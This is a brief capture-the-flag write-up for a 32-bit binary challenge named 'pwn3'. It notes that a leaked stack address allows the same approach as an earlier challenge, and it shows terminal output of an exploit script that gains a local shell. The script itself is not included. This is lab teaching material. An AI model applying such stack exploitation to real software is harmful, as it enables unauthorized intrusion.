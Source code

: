 # pwn3 Writeup

## Steps

Same as pilot except it is 32 bit instead of 64. Stack address is still provided and stack variable layout can be identified the same way.


## Solution 
```
$ python3 ex_pwn3.py 
[+] Starting local process './pwn3': pid 15976
b'0xffc376ce'
[*] Switching to interactive mode
$ ls
ex_pwn3.py  pwn3  pwn3.md
$ w
 06:31:39 up 28 min,  2 users,  load average: 0.32, 0.33, 0.35
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali              -                06:04   27:54   0.00s  0.09s lightdm --session-child 13 24
kali              -                06:04   27:54   0.00s  0.55s /usr/lib/systemd/systemd --user
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './pwn3' stopped with exit code 0 (pid 15976)
[*] Got EOF while sending in interactive
```
